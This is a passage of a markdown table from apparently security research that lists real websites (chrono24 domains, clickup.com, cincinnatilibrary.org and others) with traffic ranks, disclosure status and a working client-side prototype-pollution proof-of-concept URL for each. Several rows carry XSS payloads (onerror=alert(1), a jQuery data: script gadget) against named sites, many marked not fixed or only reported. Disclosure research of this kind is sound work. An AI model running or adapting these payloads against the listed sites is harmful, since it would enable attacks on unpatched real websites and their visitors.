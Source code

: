 |chrono24.ch|257409|URL search|-|Not|`https://chrono24.ch/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chrono24.co.uk|504483|URL search|-|Not|`https://chrono24.co.uk/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chrono24.com|8193|URL search|-|Not|`https://chrono24.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chrono24.com.au|171716|URL search|-|Not|`https://chrono24.com.au/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chrono24.com.tr|527886|URL search|-|Not|`https://chrono24.com.tr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chrono24.de|164084|URL search|-|Not|`https://chrono24.de/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chrono24.fr|209885|URL search|-|Not|`https://chrono24.fr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chrono24.hk|600476|URL search|-|Not|`https://chrono24.hk/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chrono24.in|675339|URL search|-|Not|`https://chrono24.in/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chrono24.it|487534|URL search|-|Not|`https://chrono24.it/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chrono24.kr|356266|URL search|-|Not|`https://chrono24.kr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chrono24.my|563360|URL search|-|Not|`https://chrono24.my/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chrono24.nl|688963|URL search|-|Not|`https://chrono24.nl/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chrono24.sg|338623|URL search|-|Not|`https://chrono24.sg/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|chudopredki.ru|705903|URL search|, Cookie-M|Reported|`https://chudopredki.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|churchesbook.com|620002|URL search|-|Reported|`http://churchesbook.com/forum/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|chuu.jp|499188|URL|-|Reported|`https://chuu.jp/product/detail.html?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv&product_no=41256&cate_no=1&display_group=257`
|chytrak.cz|285632|URL search|-|Reported|`https://www.webzdarma.cz/katalog/osobni-stranky/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|ciid.dk|310078|URL search|, Cookie-M|Fixed|`http://ciid.dk/about/open-lectures/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|cincinnatilibrary.org|136103|URL search|-|Reported|`https://cincinnatilibrary.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|citizensofhumanity.com|181123|URL search|-|Fixed|`https://citizensofhumanity.com/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|citymeals.org|273511|URL|, URL-M|Reported|`https://citymeals.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cityparksalliance.org|681185|URL search|-|Reported|`https://cityparksalliance.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|civanacarefree.com|957110|URL search|, URL-M|Fixed|`https://civanacarefree.com/room/one-bedroom-suite/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|clasificadospr.com|912446|URL search|, URL-M|Reported|`https://clasificadospr.com/listings/bienes-raices-residencial-apartamentos-walkups/?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script`
|classicaccessories.com|642715|URL search|, Cookie-M|Reported|`https://classicaccessories.com/golf-carts/golf-cart-enclosures/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|classyessay.com|800396|URL search|, URL-M|Reported|`https://classyessay.com/order?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv&coupon=ABIRVAGL`
|cleanboss.kr|276256|URL|, Cookie-M, URL-M|Reported|`https://cleanboss.kr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cleanlink.com|77524|URL|, URL-M|Reported|`https://cleanlink.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|clearly.ca|99246|URL search|, Cookie-M|Not|`https://clearly.ca/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|clearly.com.au|340226|URL search|, Cookie-M|Not|`https://clearly.com.au/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|clickfunnel.com|678727|URL search|-|Reported|`https://clickfunnel.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|clickpetroleoegas.com.br|322505|URL search|-|Reported|`https://clickpetroleoegas.com.br/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|clickup.com|5674|URL search|, Cookie-M, URL-M|Reported|`https://clickup.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|climateexchangeplc.com|976518|URL search|, Cookie-M|Reported|`https://climateexchangeplc.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|clinicalomics.com|210162|URL|-|Reported|`https://clinicalomics.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cliniciansbrief.com|198665|URL search|-|Reported|`https://www.cliniciansbrief.com/users/signup/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`